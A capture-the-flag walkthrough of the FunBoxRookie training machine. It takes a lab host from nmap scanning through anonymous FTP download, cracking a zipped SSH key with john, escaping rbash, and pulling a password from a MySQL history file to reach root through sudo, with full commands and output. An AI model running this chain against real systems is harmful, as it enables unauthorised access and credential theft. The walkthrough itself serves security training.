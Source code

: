 ```yaml
---
title : "FunBoxRookie- Walkthrough"
date : 21-10-2024 01:00:00
tags : [Offsec-Play, OSCP]
---
```



## Summary

This machine is exploited with an anonymous FTP server containing file **id_rsa** and then the disclosure of user credentials in a history file. It is escalated via open sudo that allows the user to run any command with elevated privileges.

## Enumeration

### Nmap

We start off by running an `nmap` scan:

```bash
kali@kali:~$ sudo nmap 192.168.120.138
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-14 13:07 EDT
Nmap scan report for 192.168.120.138
Host is up (0.032s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

We can run a more detailed `nmap` scan with the `-sC` flag against the discovered ports:

```bash
kali@kali:~$ sudo nmap -p 21,22,80 192.168.120.138 -sC
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-14 13:09 EDT
Nmap scan report for 192.168.120.138
Host is up (0.030s latency).

PORT   STATE SERVICE
21/tcp open  ftp
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25 10:51 anna.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25 10:50 ariel.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25 10:52 bud.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25 10:58 cathrine.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25 10:51 homer.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25 10:51 jessica.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25 10:50 john.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25 10:51 marge.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25 10:50 miriam.zip
| -r--r--r--   1 ftp      ftp          1477 Jul 25 10:44 tom.zip
| -rw-r--r--   1 ftp      ftp           170 Jan 10  2018 welcome.msg
|_-rw-rw-r--   1 ftp      ftp          1477 Jul 25 10:51 zlatan.zip
22/tcp open  ssh
| ssh-hostkey: 
|   2048 f9:46:7d:fe:0c:4d:a9:7e:2d:77:74:0f:a2:51:72:51 (RSA)
|   256 15:00:46:67:80:9b:40:12:3a:0c:66:07:db:1d:18:47 (ECDSA)
|_  256 75:ba:66:95:bb:0f:16:de:7e:7e:a1:7b:27:3b:b0:58 (ED25519)
80/tcp open  http
| http-robots.txt: 1 disallowed entry 
|_/logs/
|_http-title: Apache2 Ubuntu Default Page: It works
```

The FTP server listening on the default port allows for anonymous logins, and we see several zip files listed.

## Exploitation

### Anonymous FTP Server

Of the files shown in the scan, only file **tom.zip** will prove useful to us. Next, we can log in and retrieve it:

```bash
kali@kali:~$ ftp 192.168.120.138
Connected to 192.168.120.138.
220 ProFTPD 1.3.5e Server (Debian) [::ffff:192.168.120.138]
Name (192.168.120.138:kali): anonymous
331 Anonymous login ok, send your complete email address as your password
Password:
230-Welcome, archive user anonymous@192.168.118.3 !
230-
230-The local time is: Wed Oct 14 17:11:13 2020
230-
230-This is an experimental FTP server.  If you have any unusual problems,
230-please report them via e-mail to <root@funbox2>.
230-
230 Anonymous access granted, restrictions apply
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> get tom.zip
local: tom.zip remote: tom.zip
200 PORT command successful
150 Opening BINARY mode data connection for tom.zip (1477 bytes)
226 Transfer complete
1477 bytes received in 0.00 secs (28.1715 MB/s)
ftp> bye
221 Goodbye.
kali@kali:~$ 
```

However, if we try to open the archive, we will find that it is password-protected.

### Password Bruteforce

We can use `zip2john` to convert the encrypted archive to a hash file usable by `john`:

```bash
kali@kali:~$ zip2john tom.zip > tom.hash
ver 2.0 efh 5455 efh 7875 tom.zip/id_rsa PKZIP Encr: 2b chk, TS_chk, cmplen=1299, decmplen=1675, crc=39C551E6
kali@kali:~$
```

We can now use `john` and the **rockyou.txt** wordlist to crack the password:

```bash
kali@kali:~$ john --wordlist=/usr/share/wordlists/rockyou.txt tom.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
iubire           (tom.zip/id_rsa)
1g 0:00:00:00 DONE (2020-10-14 13:17) 100.0g/s 409600p/s 409600c/s 409600C/s 123456..oooooo
Use the "--show" option to display all of the cracked passwords reliably
Session completed
kali@kali:~$
```

The cracker succeeds and reveals that the password is `iubire`. Using it, we can unlock the archive:

```bash
kali@kali:~$ unzip -P iubire tom.zip
Archive:  tom.zip
  inflating: id_rsa

kali@kali:~$
```

We have obtained a private SSH key file **id_rsa**.

### SSH

Since we have obtained the private key from the archive **tom.zip**, we can assume that the user is named `tom`. Next, we will set proper key file permissions and then SSH to the target:

```bash
kali@kali:~$ chmod 0600 id_rsa
kali@kali:~$
kali@kali:~$ ssh -o StrictHostKeyChecking=no -i id_rsa tom@192.168.120.138
...
tom@funbox2:~$ id
uid=1000(tom) gid=1000(tom) groups=1000(tom),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
tom@funbox2:~$
```

### Escaping Restricted Shell

But, if try to change directory or any of the other restricted commands, we will find that our default shell upon login is `rbash`, which we must first escape:

```bash
tom@funbox2:~$ pwd
/home/tom
tom@funbox2:~$ cd ..
-rbash: cd: restricted
tom@funbox2:~$
```

There are many ways to do so, and we will choose one of the easiest ones (exiting the current shell and then reconnecting with the flag `-t "bash --noprofile"`):

```bash
tom@funbox2:~$ exit
logout
-rbash: /usr/bin/clear_console: restricted: cannot specify `/' in command names
Connection to 192.168.120.138 closed.
kali@kali:~$
kali@kali:~$ ssh -o StrictHostKeyChecking=no -i id_rsa tom@192.168.120.138 -t "bash --noprofile"
load pubkey "id_rsa": invalid format
tom@funbox2:~$ pwd
/home/tom
tom@funbox2:~$ cd ..
tom@funbox2:/home$
```

We are now able to traverse and enumerate the system further.

## Escalation

### User Password Recovery

Looking around the user's home directory, we find a MySQL history file:

```bash
tom@funbox2:/home$ cd ~
tom@funbox2:~$ ls -la
...
-rw------- 1 tom  tom   295 Jul 25 12:04 .mysql_history
...
tom@funbox2:~$
```

In this file, we see the history of several MySQL commands:

```bash
tom@funbox2:~$ cat .mysql_history 
_HiStOrY_V2_
show\040databases;
quit
create\040database\040'support';
create\040database\040support;
use\040support
create\040table\040users;
show\040tables
;
select\040*\040from\040support
;
show\040tables;
select\040*\040from\040support;
insert\040into\040support\040(tom,\040xx11yy22!);
quit
tom@funbox2:~$
```

The command `insert\040into\040support\040(tom,\040xx11yy22!);` looks very interesting as it contains string `xx11yy22!` that looks like a password.

### Sudo Escalation

Trying the password for the user to enumerate sudo privileges works, and we see that user `tom` is actually able to run any command with sudo, providing the password:

```bash
tom@funbox2:~$ sudo -l
[sudo] password for tom: 
Matching Defaults entries for tom on funbox2:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tom may run the following commands on funbox2:
    (ALL : ALL) ALL
tom@funbox2:~$
```

We can easily use this to get a root shell:

```bash
tom@funbox2:~$ sudo su
root@funbox2:/home/tom# id
uid=0(root) gid=0(root) groups=0(root)
root@funbox2:/home/tom#
```
